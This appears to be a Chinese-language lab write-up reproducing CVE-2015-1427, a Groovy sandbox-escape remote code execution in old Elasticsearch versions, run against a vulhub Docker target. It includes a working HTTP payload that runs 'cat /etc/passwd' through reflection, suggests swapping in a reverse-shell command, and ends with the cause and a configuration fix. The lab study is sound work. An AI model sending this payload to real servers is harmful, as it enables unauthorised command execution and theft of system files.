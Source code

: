 # 漏洞复现-CVE-2015-1427-Groovy远程代码执行 

0x00 实验环境
攻击机：Win 10

靶机也可作为攻击机：Ubuntu18 （docker搭建的vulhub靶场）

0x01 影响版本
Elasticsearch 1.3.0-1.3.7 和 1.4.0-1.4.2 

0x02 漏洞复现
简介：ElasticSearch Groovy脚本被爆出存在远程代码执行漏洞

该版本存在漏洞风险！！！

与上一篇代码执行一样，这次的执行方式也是，需要首先使用ElasticSearch的目录创建数据，创建成功将如下图所示：

```
POST /website/blog/ HTTP/1.1
Host: yourIP:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 27

{
  "name": "hello1"
}
```
然后直接使用POC进行代码执行：
```
POST http://target:9200/_search?pretty 
{"size":1,"script_fields": {"test#": {"script":"java.lang.Math.class.forName(\"java.io.BufferedReader\").getConstructor(java.io.Reader.class).newInstance(java.lang.Math.class.forName(\"java.io.InputStreamReader\").getConstructor(java.io.InputStream.class).newInstance(java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"cat /etc/passwd\").getInputStream())).readLines()","lang": "groovy"}}}
```
以POST的方式提交，可以修改cat etc/passwd命令为其他反弹shell的命令，具体可以参考上一篇命令执行文章。

0x03 实验原理
参考：https://www.cnblogs.com/sxmcACM/p/4435842.html
2014年爆出的(CVE-2014-3120)，由于搜索引擎支持使用脚本代码(MVEL)作为表达式进行数据操作，攻击者可以通过MVEL构造执行任意Java代码，后来脚本语言引擎换成了Groovy，并且加入了沙盒进行控制，危险的代码会被拦截，结果这次由于沙盒限制的不严格，导致远程代码执行。修复：修改elasticseach.yml的 script.groovy.sandbox.enabled 为 false。